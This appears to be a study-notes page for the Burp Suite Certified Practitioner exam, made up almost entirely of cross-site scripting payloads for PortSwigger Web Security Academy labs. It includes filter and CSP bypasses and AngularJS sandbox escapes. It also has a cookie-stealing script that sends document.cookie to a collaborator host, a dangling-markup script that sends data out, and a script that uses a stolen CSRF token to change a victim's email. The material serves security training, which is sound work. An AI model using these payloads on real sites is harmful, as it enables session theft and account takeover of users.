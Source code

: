 ['https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/payloads/CookieStealer-Payloads.md'](Steal-cookie-payloads)

['https://portswigger.net/web-security/cross-site-scripting/cheat-sheet'](XSS Cheat sheet)
### test xss
```
jQuery selector sink using a hashchange event
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
```
Reflected XSS into attribute with angle brackets HTML-encoded
"onmouseover="alert(1)
```
```
Stored XSS into anchor href attribute with double quotes HTML-encoded
href=javascript:alert(1)
```
```
Reflected XSS into a JavaScript string with angle brackets HTML encoded
'-alert(1)-'
```
```
DOM XSS in document.write sink using source location.search inside a select element
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```
```
DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
HTML nodes containing the ng-app attribute
{{$on.constructor('alert(1)')()}}
```js
Reflected DOM XSS
\"-alert(1)}//
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```
```
Stored DOM XSS (comment)
<><img src=1 onerror=alert(1)>
```
```
Reflected XSS into HTML context with most tags and attributes blocked
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
```
Reflected XSS into HTML context with all tags blocked except custom ones
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
```
Reflected XSS with some SVG markup allowed
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```
```
Reflected XSS in canonical link tag
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
```
Reflected XSS into a JavaScript string with single quote and backslash escaped
</script><script>alert(1)</script>
```
```
Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
${alert(1)}
```
```
Exploiting cross-site scripting to steal cookies
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```
Exploiting XSS to bypass CSRF defenses
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
```
Reflected XSS with AngularJS sandbox escape without strings
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
```
Reflected XSS with AngularJS sandbox escape and CSP
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```
```
Reflected XSS with event handlers and href attributes blocked
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
```
Reflected XSS in a JavaScript URL with some characters blocked
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
```
Reflected XSS protected by very strict CSP, with dangling markup attack
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
```
Reflected XSS protected by CSP, with CSP bypass
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```